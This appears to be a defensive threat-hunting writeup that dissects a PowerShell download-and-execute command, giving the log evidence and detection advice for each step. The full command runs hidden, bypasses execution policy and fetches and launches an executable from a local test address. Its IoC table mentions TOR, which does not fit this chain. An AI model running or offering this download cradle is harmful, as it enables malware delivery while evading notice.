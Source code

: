 # Suspicious PowerShell Activity Detected: Attempted Malicious File Download and Execution - Usage

## Overview:

This sequence is built to fetch a file from a network location and run it while reducing visibility and interrupting normal security signals. What this really means is the actor is trying to automate delivery and execution while making forensic and user detection harder.
```
powershell.exe -NoExit -ExecutionPolicy Bypass -WindowStyle Hidden $ErrorActionPreference='silentlycontinue'; (New-Object System.Net.WebClient).DownloadFile('http://127.0.0.1/1.exe', 'C:\test-WDATP-test\invoice.exe'); Start-Process 'C:\test-WDATP-test\invoice.exe'
```

## Step 1 Start PowerShell with NoExit
**What it does:** Starting PowerShell with NoExit keeps the shell open after the command returns. The process remains alive instead of terminating immediately.

**What shows up in logs:** A long running powershell.exe process with a start time that does not match normal interactive sessions. Command line fields will include an argument that indicates the NoExit option. Event logs may show a spawn of powershell.exe with a parent process that is unusual for interactive shells.

**Why an attacker likes this:** It allows follow on commands to execute in the same session, and it can leave the process present while other actions complete. That increases the window for the payload to be downloaded and run.

**How to detect and respond:** Look for powershell.exe processes with abnormal lifetimes or nonstandard parent processes. Flag long lived PowerShell tokens that are not associated with legitimate admin sessions. If seen, collect process memory and command line arguments and isolate the host.

## Step 2 Set ExecutionPolicy to Bypass
**What it does:** Setting execution policy to bypass overrides local script execution restrictions. It removes the built in prompts or policy checks that would normally prevent unsigned or restricted scripts from running.

**What shows up in logs:** Command line parameters in process creation events will contain the execution policy argument. Script block logging, if enabled, will show the script content. Transcription files, if configured, will capture commands that ran.

**Why an attacker likes this:** Scripts and remote code run without being blocked by policy, so scripted payloads execute on locked down systems.

**How to detect and respond:** Ensure script block logging and module logging are enabled. Correlate executionpolicy command line flags with other suspicious indicators. If bypass is observed, treat the session as hostile, capture artifacts, and reset local policies where possible.

## Step 3 Run with WindowStyle Hidden
**What it does:**
Running with window style set to hidden launches the shell or script without a visible window. The action is invisible to the interactive user session.

**What shows up in logs:** No GUI evidence on the desktop. Process creation and parent process relationships still appear in telemetry. Endpoint UI event logs may show no interactive terminal, which is itself suspicious for scripted PowerShell runs.

**Why an attacker likes this:** It reduces chance of a user noticing something running, which prolongs undetected activity.

**How to detect and respond:** Search for powershell processes spawned without a visible console, especially when originating from service or scheduled task contexts. Use EDR sensors that capture process trees and window state.

## Step 4 Suppress errors with ErrorActionPreference silentlycontinue
**What it does:** Setting the error action preference to silentlycontinue hides error messages and prevents failures from drawing attention. The script continues without producing visible exceptions.

**What shows up in logs:** Fewer visible error dialogs and less interactive troubleshooting noise. Telemetry may still capture failed network connections or file write errors, but those may be suppressed at the script level.

**Why an attacker likes this:** Error suppression makes noise reduction explicit. Fewer user or admin alerts means a longer dwell time.

**How to detect and respond:** Correlate suppressed script-level behavior with other signals. Look for sequences where network requests or file writes occur without follow up error events. Enable script tracing to capture suppressed exceptions in logs.

## Step 5 Download a file via a network client object
**What it does:** The script creates a network client instance and requests a binary from a specified URL, then writes the response to disk. This moves a payload from a remote or local server into the host file system.

**What shows up in logs:** Network logs will show outbound connections to the specified IP or domain. Process creation events and file system events will show a new file being written to disk. EDR may record file write and hash data. DNS logs may reveal lookup activity.

**Why an attacker likes this:** It delivers the binary payload in a controlled way, often from a short lived or local server to reduce detection and attribution. Writing to an obfuscated or unusual path reduces immediate discovery.

**How to detect and respond:** Monitor for powershell initiated network calls, especially to uncommon internal IPs or external endpoints. Watch file creation events and immediately hash new executables. Block known malicious endpoints and quarantine any host that writes unexpected executables.

## Step 6 Execute the downloaded file with Start-Process
**What it does:** The script launches the downloaded executable as a new process. That transitions the operation from script to native binary execution, which often carries the malicious payload.

**What shows up in logs:** A new process tree node appears for the downloaded executable with its parent indicated as powershell.exe. Process creation events, command line, and image load artifacts will be present. The new binary may trigger detections or may be unsigned and untrusted.

**Why an attacker likes this:** This completes the delivery chain. The actor gets code running on the endpoint that can perform persistence, lateral movement, or data theft.

**How to detect and respond:** Detect process parentage where powershell.exe spawns unknown executables. Block execution of binaries in user-writable or temporary locations. Use application control allow lists and remove execute permissions from uncommon directories.

## Why the chain is dangerous overall
Chaining these steps hides activity, bypasses local policy, and enables automated delivery and execution. The combination increases speed and reduces chances of manual discovery. At scale this pattern is commonly used to drop shells, trojans, or loaders that enable further compromise.

---

## Tables Used to Detect IoCs:

| **Parameter**       | **Description**                                                              |
|---------------------|------------------------------------------------------------------------------|
| **Name**| DeviceProcessEvents|
| **Info**|https://learn.microsoft.com/en-us/defender-xdr/advanced-hunting-deviceinfo-table|
| **Purpose**| Used to detect the silent installation of TOR as well as the TOR browser and service launching.|

---

## Related Queries:
```kql
DeviceFileEvents
| where DeviceName startswith "ARYA"
| order by Timestamp desc
| where InitiatingProcessAccountName  !in ("system", "local service")

```

---

## Created By:
- **Author Name**: Arya Davidson Ani Florance
- **Author Contact**: https://www.linkedin.com/in/arya-davidson-ani-florance/
- **Date**: September 11, 2025

## Validated By:
- **Reviewer Name**: 
- **Reviewer Contact**: 
- **Validation Date**: 

---

## Additional Notes:

Here is the thing. PowerShell is a legitimate, powerful tool for automation and system management. Its depth of access and integration into Windows also makes it attractive to attackers. Malicious actors commonly abuse PowerShell by hiding windows, bypassing execution policies, and automating downloads and execution to evade detection and gain persistence. Trusted scripts and files can be weaponized. Social engineering often lures users into running harmful commands.

## Public warning

Do not copy and paste unfamiliar commands into PowerShell. Exercise extreme caution with files or messages that instruct opening PowerShell or the Windows Run dialog. Report suspicious PowerShell activity to IT immediately and avoid further interaction with the suspect host or file. A few careless actions can lead to full system compromise.
 
## Revision History:
| **Version** | **Changes**         | **Date**              | **Modified By**   |
|-------------|---------------------|-----------------------|-------------------|
| 1.0         | Initial draft       | `September  6, 2024`  | `Arya Davidson`   |
